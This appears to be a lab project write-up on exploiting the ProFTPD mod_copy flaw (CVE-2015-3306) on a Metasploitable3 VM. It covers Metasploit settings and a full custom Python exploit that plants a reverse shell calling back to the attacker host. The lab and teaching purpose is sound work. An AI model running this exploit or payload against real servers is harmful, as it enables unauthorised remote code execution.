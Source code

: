 Vulnerable Service Selection
For this project, we targeted the ProFTPD service on Metasploitable3. This FTP server contains a well-known vulnerability (mod_copy module) that allows an attacker to copy files within the target system without authentication.
Environment Setup
Victim Environment

VM: Metasploitable3
IP Address: 192.168.56.104
Vulnerable Service: ProFTPD with mod_copy module enabled

Attacker Environment

VM: Kali Linux
IP Address: 192.168.56.102
Tools: Metasploit Framework, Custom Python Exploit

Attack Execution
Method 1: Using Metasploit Framework
The first attack method utilized the Metasploit Framework's unix/ftp/proftpd_modcopy_exec module to exploit the vulnerable ProFTPD service.
Steps:

Initiated Metasploit and selected the appropriate exploit module
Set the necessary parameters:

RHOSTS: 192.168.56.104 (Target IP)
LHOST: 192.168.56.102 (Attacker IP)
SITEPATH: /var/www/html (Web directory)


Executed the exploit, gaining a reverse shell on the target system

Exploit Execution:


The exploit successfully:

Connected to the FTP server
Executed the mod_copy commands to place a PHP webshell
Established a reverse shell connection back to our attacking machine

Method 2: Using Custom Python Script
We developed a custom Python script that replicates the functionality of the Metasploit module but leverages Python's ftplib to interact with the ProFTPD server.
Script Overview:
pythonimport ftplib
import socket
import sys
import threading
import time
# Configuration
RHOST = "192.168.56.104"
LHOST = "192.168.56.102"
LPORT = 4444
SITEPATH = "/var/www/html/shell.py"
FTP_PORT = 21
# Reverse shell command
payload = f"""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{LHOST}",{LPORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
"""
# Listener function
def start_listener():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind((LHOST, LPORT))
    s.listen(1)
    print(f"[+] Listening on {LHOST}:{LPORT}...")
    conn, addr = s.accept()
    print(f"[+] Connection from {addr}")
    while True:
        try:
            cmd = input("$ ")
            if not cmd:
                continue
            conn.send(cmd.encode() + b"\n")
            response = conn.recv(4096).decode()
            print(response)
        except KeyboardInterrupt:
            conn.close()
            s.close()
            break
# Start listener in a background thread
listener_thread = threading.Thread(target=start_listener)
listener_thread.daemon = True
listener_thread.start()
# FTP connection
try:
    ftp = ftplib.FTP()
    ftp.connect(RHOST, FTP_PORT)
    ftp.login("anonymous", "anonymous@")
    print("[+] Logged in anonymously")
    # Use SITE CPFR to prepare for file creation
    ftp.sendcmd(f"SITE CPFR /dev/stdin")
    print("[+] SITE CPFR /dev/stdin")
    # Use SITE CPTO to create the file in the web directory
    ftp.sendcmd(f"SITE CPTO {SITEPATH}")
    print(f"[+] SITE CPTO {SITEPATH}")
    # Send the payload via APPE
    ftp.storlines("APPE /dev/stdin", iter(payload.splitlines(keepends=True)))
    print("[+] Payload sent")
    ftp.quit()
    print("[+] FTP session closed")
except Exception as e:
    print(f"[!] Error: {e}")
    sys.exit(1)
# Wait for the listener to catch the shell
try:
    while True:
        time.sleep(1)
except KeyboardInterrupt:
    print("\n[+] Exiting...")
The script works by:

Setting up a listener for the reverse shell
Connecting to the FTP server anonymously
Using the SITE CPFR and SITE CPTO commands to abuse the mod_copy module
Placing a Python reverse shell in the web directory
Executing the shell to establish a connection back to our attacker machine

Custom Script Execution:

The custom script successfully:

Connected to the FTP server anonymously
Used the SITE CPFR and CPTO commands
Received an error that the file exists, demonstrating the vulnerability
Established a reverse shell connection (as seen in our listening session)

Vulnerability Analysis
The ProFTPD mod_copy module vulnerability (CVE-2015-3306) allows remote attackers to read and write to arbitrary files on the system via the SITE CPFR and SITE CPTO commands. This vulnerability exists because:

The mod_copy module allows copying files between locations on the server
No authentication is required to use these commands
The module doesn't properly restrict where files can be copied to or from

This vulnerability is particularly dangerous as it allows attackers to:

Write malicious files to web directories
Execute arbitrary code on the target system
Create backdoors for persistent access

Conclusion
We successfully compromised the ProFTPD service on Metasploitable3 using both Metasploit and a custom Python script. The vulnerability in the mod_copy module allowed us to place a reverse shell on the target system and execute arbitrary commands, demonstrating the severe impact of this security flaw.
In Phase 2, we will analyze the logs from both the victim and attacker machines to better understand the attack patterns and indicators of compromise.
